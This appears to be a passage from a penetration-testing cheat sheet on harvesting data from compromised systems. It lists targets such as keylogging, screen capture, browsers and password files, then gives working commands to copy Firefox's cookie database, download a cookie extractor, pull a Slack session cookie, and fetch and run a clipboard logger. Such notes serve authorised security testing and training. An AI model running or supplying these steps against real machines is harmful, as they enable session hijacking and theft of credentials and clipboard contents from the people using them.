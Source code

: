 **Data Sources**

Below are some of the sources from which we can obtain information from compromised systems:

- Installed applications
- Installed services
    - Websites
    - File Shares
    - Databases
    - Directory Services (such as Active Directory, Azure AD, etc.)
    - Name Servers
    - Deployment Services
    - Certificate Authority
    - Source Code Management Server
    - Virtualization
    - Messaging
    - Monitoring and Logging Systems
    - Backups
- Sensitive Data
    - Keylogging
    - Screen Capture
    - Network Traffic Capture
    - Previous Audit reports
- User Information
    - History files, interesting documents (.doc/x,.xls/x,password._/pass._, etc)
    - Roles and Privileges
    - Web Browsers
    - IM Clients

**Copy Firefox Cookies Database**

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

- Download CookieExtractor :
```sh
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
```

- Extract website Cookie  from Database : 
```shell
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

**Clipboard** 
- Download ClipboardLogger : 
```sh
wget https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1
 ```
 
 - Monitor the Clipboard:
```powershell
Invoke-ClipboardLogger
```


#### Miscellaneous Techniques
